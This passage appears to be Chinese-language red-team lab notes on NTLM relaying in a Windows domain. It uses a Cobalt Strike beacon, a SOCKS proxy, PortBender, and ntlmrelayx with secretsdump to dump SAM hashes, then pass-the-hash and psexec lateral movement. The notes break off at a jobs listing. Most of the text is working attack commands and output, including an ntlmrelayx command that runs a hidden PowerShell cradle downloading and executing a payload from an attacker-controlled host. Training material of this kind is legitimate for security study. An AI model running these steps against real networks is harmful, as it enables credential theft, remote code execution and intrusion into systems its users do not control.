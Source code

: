 建立代理连接
```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```


在```WKSTN-2```，使用SMB流量访问```WKSTN-1```
```
H:\>hostname
wkstn-2

H:\>whoami
dev\nlamb

H:\>dir \\10.10.17.231\blah
```


PortBender 将记录连接

```
New connection from 10.10.17.132:50332 to 10.10.17.231:445
Disconnect from 10.10.17.132:50332 to 10.10.17.231:445
```


```ntlmrelayx ```将使用[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py)转存hash


![alt NTLM Relaying](https://rto-assets.s3.eu-west-2.amazonaws.com/relaying/dump-sam.png)


拿到的ntml可以本地破解，也可以pth
```
beacon> pth .\Administrator b423cdd3ad21718de4490d9344afef72

beacon> jump psexec64 srv-2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-2 via Service Control Manager (\\srv-2\ADMIN$\3695e43.exe)
Started service 3695e43 on srv-2
[+] established link to child beacon: 10.10.17.68
```


ntlmrelayx除了dump 哈希以外，还可以执行命令
```
root@kali:~# proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.17.231:8080/b\")"'
```


停止PortBender命令
```
beacon> jobs
[*] Jobs
